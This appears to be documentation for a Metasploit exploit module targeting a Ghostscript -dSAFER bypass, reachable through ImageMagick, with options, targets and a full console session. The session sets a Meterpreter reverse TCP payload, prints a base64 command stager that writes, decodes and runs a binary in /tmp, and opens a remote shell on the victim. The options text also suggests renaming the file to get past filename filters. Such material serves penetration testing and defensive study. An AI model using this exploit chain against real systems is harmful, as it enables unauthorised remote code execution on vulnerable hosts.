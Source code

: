 ## Intro

This module exploits a `-dSAFER` bypass in Ghostscript to execute
arbitrary commands by handling a failed `restore` (`grestore`) in
PostScript to disable `LockSafetyParams` and avoid `invalidaccess`.

This vulnerability is reachable via libraries such as ImageMagick,
and this module provides the latest vector for Ghostscript.

For previous Ghostscript vectors, please see the following modules:
  `exploit/unix/fileformat/ghostscript_type_confusion`
  `exploit/unix/fileformat/imagemagick_delegate`

## Setup

Install Ghostscript and use the console command (`gs` on Unix and
`gswin64c` on Windows). You may also exploit the vulnerability through
ImageMagick using `convert` or `identify`, for example.

## Targets

```
Id  Name
--  ----
0   Unix (In-Memory)
1   PowerShell (In-Memory)
2   Linux (Dropper)
```

## Options

**FILENAME**

Set this to the output file's name. Depending on the target environment,
the file extension may not matter, so the PS file could be named
`msf.pdf`, for instance. This can potentially work around filename
filters.

**WritableDir**

Set this to a writable directory without `noexec`.

## Usage

```
msf5 > use exploit/multi/fileformat/ghostscript_failed_restore
msf5 exploit(multi/fileformat/ghostscript_failed_restore) > set target Linux (Dropper)
target => Linux (Dropper)
msf5 exploit(multi/fileformat/ghostscript_failed_restore) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf5 exploit(multi/fileformat/ghostscript_failed_restore) > set lhost 172.28.128.1
lhost => 172.28.128.1
msf5 exploit(multi/fileformat/ghostscript_failed_restore) > set disablepayloadhandler false
disablepayloadhandler => false
msf5 exploit(multi/fileformat/ghostscript_failed_restore) > set wfsdelay 3600
wfsdelay => 3600
msf5 exploit(multi/fileformat/ghostscript_failed_restore) > set verbose true
verbose => true
msf5 exploit(multi/fileformat/ghostscript_failed_restore) > run

[*] Started reverse TCP handler on 172.28.128.1:4444
[*] Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+QAAAAAAAAB6AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UmoKQVlWUGopWJlqAl9qAV4PBUiFwHg7SJdIuQIAEVysHIABUUiJ5moQWmoqWA8FWUiFwHklSf/JdBhXaiNYagBqBUiJ50gx9g8FWVlfSIXAecdqPFhqAV8PBV5aDwVIhcB47//m>>'/tmp/hvQlm.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/tgxVT' < '/tmp/hvQlm.b64' ; chmod +x '/tmp/tgxVT' ; '/tmp/tgxVT' ; rm -f '/tmp/tgxVT' ; rm -f '/tmp/hvQlm.b64'"]
[+] msf.ps stored at /Users/wvu/.msf4/local/msf.ps
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (816260 bytes) to 172.28.128.3
[*] Meterpreter session 1 opened (172.28.128.1:4444 -> 172.28.128.3:51648) at 2018-09-05 19:44:32 -0500

meterpreter > getuid
Server username: uid=1000, gid=1000, euid=1000, egid=1000
meterpreter > sysinfo
Computer     : 10.0.2.15
OS           : Ubuntu 16.04 (Linux 4.4.0-134-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
